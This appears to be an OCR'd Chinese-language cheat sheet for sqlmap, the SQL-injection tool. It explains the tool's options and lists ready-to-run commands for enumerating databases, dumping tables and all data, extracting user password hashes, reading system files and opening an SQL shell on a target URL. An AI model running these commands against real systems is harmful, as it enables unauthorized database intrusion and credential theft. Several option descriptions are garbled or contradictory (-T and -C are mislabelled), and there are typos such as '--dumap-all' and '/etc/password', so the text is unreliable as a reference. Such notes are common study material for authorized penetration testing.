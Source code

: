 解释一下中间的相关选项的含义：

-u: 指定目标 URL

 --cookie: F12 进入开发者选项，然后找到相应的 cookie 值（推荐使用bp）

-b: 获取 DBMS 的 banner 

--current-db: 获取当前数据库              --dbs: 检索数据库 

--current-user： 获取当前用户

 --batch: 后面默认选项 （每一次需要选择的时候用，直接选择的是默认值）

--string: 当查询可用时用来匹配页面中的字符串

 --users: 枚举 DBMS 用户

 --password: 枚举 DBMS 用户密码 

-D: 要检索的数据库 

 -tables：要检索的数据库中表 

-T： 要检索的数据库中表中的所有列

 -columns: 要检索表中的列 

-T： 要检索的数据库

 -C： 要检索的数据库中的表

 -dump： 转储数据表中的列 （-- 和- 是不一样的）

**还有一些会经常使用的语句：**

 1)判断当前用户是否是 dba sqlmap -u "url" --is-dba -v 1 

2)--users:列出数据库管理系统用户 sqlmap -u "url" --users -v 0 

3)--passwords:数据库用户密码(hash) sqlmap -u "url" --passwords -v 0 sqlmap -u "url" --passwords -U sa -v 0 4)查看用户权限 sqlmap -u "url" --privileges -v 0 sqlmap -u "url" --privileges -U postgres -v 0 

5)--dbs 可以利用的数据库 sqlmap -u "url" --dbs -v 0

 6)--tables 列数据库表 sqlmap -u "url" --tables -D "information_scheam"       -D:指定数据名称

 7)--columns 列出表中的列名 sqlmap -u "url" --columns -T "user" -D "mysql" -v 1 -T:指定表名，-D:指定库名

 8)--dump 列表中指定列的内容 sqlmap -u "url" --dump -T "users" -D "testdb"   -C:可以指定字段 指定列的范围为             2到 4 sqlmap -u "url" --dump -T "users" -D "testdb" --start 2 --stop 4 -v 0 

9)--dumap-all 列出所有数据库，所有表内容 sqlmap -u "url" --dump-all -v 0 只列出用户自己新建的数据库和表的内容 sqlmap -u "url" --dump-all --exclude-sysdbs -v 0

 10)--file 读取文件内容[load_file()函数] sqlmap -u "url" --file /etc/password

 11)执行 SQL sqlmap -u "url" --sql-shell 

12)-p 指定参数 sqlmap -u "url" -v 1 -p "id" -p 可以指定多参数-p "cat,id" 

13)POST 提交 sqlmap -u "url" --method POST --data "id=1" 

14)COOKIE 提交 sqlmap -u "url" --cookie "id=1" -v 1   cookie 值可以由 TamperData 抓取 （bp也可以）
